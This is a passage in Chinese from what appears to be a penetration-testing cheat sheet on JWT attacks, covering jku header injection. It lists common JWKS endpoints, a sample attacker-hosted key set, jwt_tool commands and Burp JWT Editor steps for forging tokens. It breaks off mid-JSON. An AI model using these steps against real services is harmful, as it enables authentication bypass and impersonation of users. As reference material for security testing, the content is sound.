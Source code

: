 - 修改 kid 头部以尝试 SQL 和命令注入

### JWKS - jku 头部注入

"jku" 头部值指向 JWKS 文件的 URL。通过将 "jku" URL 替换为包含公钥的攻击者控制的 URL，攻击者可以使用配对的私钥签署令牌，并让服务检索恶意公钥并验证令牌。

有时可以通过标准端点公开暴露：

- `/jwks.json`
- `/.well-known/jwks.json`
- `/openid/connect/jwks.json`
- `/api/keys`
- `/api/v1/keys`
- [`/{tenant}/oauth2/v1/certs`](https://docs.theidentityhub.com/doc/Protocol-Endpoints/OpenID-Connect/OpenID-Connect-JWKS-Endpoint.html)

你应该为此攻击创建自己的密钥对并托管它。它应该看起来像这样：

```json
{
    "keys": [
        {
            "kid": "beaefa6f-8a50-42b9-805a-0ab63c3acc54",
            "kty": "RSA",
            "e": "AQAB",
            "n": "nJB2vtCIXwO8DN[...]lu91RySUTn0wqzBAm-aQ"
        }
    ]
}
```

**漏洞利用**：

- 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```ps1
    python3 jwt_tool.py JWT_HERE -X s
    python3 jwt_tool.py JWT_HERE -X s -ju http://example.com/jwks.json
    ```

- 使用 [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. 生成一个新的 RSA 密钥并托管它
    2. 编辑 JWT 的数据
    3. 将 kid 头部替换为你自己的 JWKS 中的 kid
    4. 添加 jku 头部并签署 JWT（应勾选“不要修改头部”选项）

**分解**：

```json
{"typ":"JWT","alg":"RS256", "jku":"https://example.com/jwks.json", "kid":"